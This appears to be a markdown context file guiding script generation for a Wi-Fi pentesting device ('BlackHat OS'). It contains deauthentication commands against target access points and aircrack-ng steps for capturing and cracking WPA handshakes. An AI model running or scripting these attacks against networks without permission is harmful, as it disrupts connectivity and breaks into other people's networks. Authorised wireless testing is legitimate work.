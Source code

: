 **Hardware Context:**
- **wlan0 (RTL8723DS)**: 2.4GHz onboard, use for SSH connection
- **wlan1 (RTL8821CU)**: 2.4/5GHz USB dongle, use for attacks

**Best Practice Pattern:**
```bash
# 1. Connect wlan0 for SSH stability
bh set SSID "YourNet"
bh set PASS "password"
bh wifi con wlan0

# 2. Use wlan1 for attacks
bh deauth_scan wlan1
bh deauth_all <target_ap> wlan1
```

### Aircrack-ng Suite

Standard aircrack-ng tools are available:

```bash
# Monitor mode (manual setup if bh fails)
ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up

# Scanning
airodump-ng wlan1
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan1

# Injection
aireplay-ng --deauth 10 -a <AP_MAC> -c <CLIENT_MAC> wlan1

# Cracking
aircrack-ng -w wordlist.txt capture-01.cap
```

### Script Generation Approach

When creating scripts:

1. **Use bash** (most compatible with BlackHat OS)
2. **Error handling** (check command success)
3. **Logging** (save output for analysis)
4. **Cleanup** (restore interfaces, remove temp files)
5. **Comments** (explain each major step)

**Template Structure:**
```bash
#!/bin/bash
# Script: [name]
# Purpose: [brief description]
# Usage: ./script.sh [args]

set -e  # Exit on error

# Configuration
INTERFACE="wlan1"
TARGET_SSID="NetworkName"

# Functions
cleanup() {
    echo "[*] Cleaning up..."
    # Restore interfaces, remove files
}
trap cleanup EXIT

```